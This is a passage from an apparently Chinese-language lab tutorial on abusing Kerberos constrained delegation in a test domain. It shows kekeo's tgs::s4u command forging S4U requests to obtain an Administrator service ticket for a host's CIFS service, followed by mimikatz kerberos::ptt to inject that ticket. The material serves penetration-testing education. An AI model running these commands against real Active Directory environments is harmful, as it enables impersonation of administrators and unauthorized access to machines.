 ![](images/18.jpg)

得到服务用户tony的TGT：	```TGT_tony@LMRSEC.COM_krbtgt~lmrsec.com@LMRSEC.COM.kirbi```

然后我们可以使用这张TGT通过伪造s4u请求以administrator用户身份请求访问AA-PC CIFS服务的ST：

	tgs::s4u /tgt:TGT_tony@LMRSEC.COM_krbtgt~lmrsec.com@LMRSEC.COM.kirbi /user:Administrator@lmrsec.com /service:cifs/AA-PC.lmrsec.com

![](images/19.jpg)

**S4U2Self获取到的ST1以及S4U2Proxy获取到的AA-PC CIFS服务的ST2**会保存在当前目录下：

![](images/20.jpg)

ST1和ST2分别对应的就是kekeo生成的```TGS_Administrator@lmrsec.com@LMRSEC.COM_tony@LMRSEC.COM.kirbi```和```TGS_Administrator@lmrsec.com@LMRSEC.COM_cifs~AA-PC.lmrsec.com@LMRSEC.COM.kirbi```

最终用到是ST2，ST1可以看作一个中间产物，在攻击机上进行ptt就能得到AA-PC cifs的访问权限了

然后我们用mimikatz将ST2导入当前会话即可（这一步是本地行为，无网络流量）：

	kerberos::ptt TGS_Administrator@lmrsec.com@LMRSEC.COM_cifs~AA-PC.lmrsec.com@LMRSEC.COM.kirbi
